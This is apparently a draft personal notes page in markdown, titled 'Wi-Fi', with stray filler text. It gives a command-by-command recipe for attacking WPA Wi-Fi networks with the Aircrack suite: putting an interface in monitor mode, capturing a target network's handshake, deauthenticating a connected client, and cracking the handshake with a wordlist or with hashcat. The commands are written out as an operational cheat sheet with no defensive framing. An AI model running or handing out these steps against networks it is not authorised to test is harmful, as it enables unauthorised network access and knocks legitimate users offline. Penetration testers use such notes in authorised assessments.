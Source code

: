 ```yaml
---
title: "Wi-Fi"
date: 2020-07-16T13:41:37+02:00
draft: true
---
```

asdas

#### Capturing handshakes with the Aircrack suite
1. Put WLAN interface in monitoring mode 
```
airmon-ng start wlan0 
```
2. Start listening for wifi networks 
```
airodump-ng -c 6 --bssid 00:1D:7E:64:9A:7C -w file.cap wlan0mon  
```
3. Deauth clients  
```
aireplay-ng -0 5 -a 00:1D:7E:64:9A:7C -c 00:25:D3:0B:71:15 wlan0mon
```
4. Crack WPA handshake in captured output 
```
aircrack-ng capture-02.cap -w wordlist.txt 
```
5. OR: Filter only the WPA handshake from the capture 
```
Wpaclean <outfile> <infile> 
```
6. Convert .cap to .hccap to crack with hashcat (aircrack is CPU, hashcan can do GPU) 
```
aircrack-ng input.cap -J output  
```

The hashes in the .hccap format can now be cracked using Hashcat.
